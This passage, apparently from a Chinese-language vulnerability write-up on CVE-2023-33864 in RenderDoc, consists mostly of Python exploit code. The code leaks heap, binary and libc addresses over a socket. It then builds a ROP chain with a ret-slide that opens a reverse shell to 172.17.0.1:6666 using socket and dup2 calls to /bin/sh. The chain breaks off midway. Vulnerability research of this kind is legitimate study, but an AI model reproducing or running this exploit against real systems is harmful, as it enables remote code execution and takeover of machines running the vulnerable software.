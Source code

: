 ```python
s = socket(AF_INET, SOCK_STREAM)
s.connect((ip, port))
    
# do not kick out the long-live thread
packet = p32(0x2) + p32(0) + p32(9) + \
			   p32(0x6) + b'qts588' + p32(0) + b'a'*0x40
        
s.sendall(packet)
    
recv_buf = b''
while True:
    recv_buf = s.recv(2048)
    if recv_buf.find(b'\x10\x00\x00\x00\x03\x03\x03\x03') != -1:
        break
    
tag_index = recv_buf.find(b'\x10\x00\x00\x00\x03\x03\x03\x03')
heap_addr = u64(recv_buf[tag_index+80 : tag_index+88].ljust(8, b'\x00'))
text_addr = u64(recv_buf[tag_index+88 : tag_index+96].ljust(8, b'\x00'))
libc_addr = u64(recv_buf[tag_index+40 : tag_index+48].ljust(8, b'\x00'))
```

1. 再次连进去一个 client ，其中 kick = 0，client name 部分构造 rop 链。
    
    新的 client name 彻底覆盖了调试线程的栈，我们可以在栈上面大量喷洒 ret 指令的地址，当 19 号线程的某个函数返回的时候就会进入 ret 滑板地址，一直滑到 rop 的反弹shell部分。
    
    由于堆地址在第 7 步中已经泄漏出来，因此我们很容易定位 “/bin/bash” 字符串的地址。
    

![renderdoc-第 9 页.jpg](/assets/posts/2025-05-27-CVE-2023-33864-RenderDoc堆溢出漏洞分析/renderdoc-%E7%AC%AC_9_%E9%A1%B5.jpg)

```python
rop_chain = b'/bin/sh\x00'
#struct sockaddr_in   172.17.0.1:6666
rop_chain += p64(0x010011ac0a1a0002) + p64(0x0000556b2b358120)
    
rop_chain += p64(ret_addr) * 0x26c
# int fd = socket(AF_INET, SOCK_STREAM, 0);
rop_chain += p64(pop_rdi_ret_addr) + p64(AF_INET)
rop_chain += p64(pop_rsi_ret_addr) + p64(SOCK_STREAM)
rop_chain += p64(pop_rdx_ret_addr) + p64(0)
rop_chain += p64(socket_addr)
# dup2(7, 0)
rop_chain += p64(pop_rdi_ret_addr) + p64(7)
rop_chain += p64(pop_rsi_ret_addr) + p64(0)
rop_chain += p64(dup2_addr)
# dup2(7, 1)
rop_chain += p64(pop_rdi_ret_addr) + p64(7)
rop_chain += p64(pop_rsi_ret_addr) + p64(1)
rop_chain += p64(dup2_addr)
# dup2(7, 2)
rop_chain += p64(pop_rdi_ret_addr) + p64(7)
```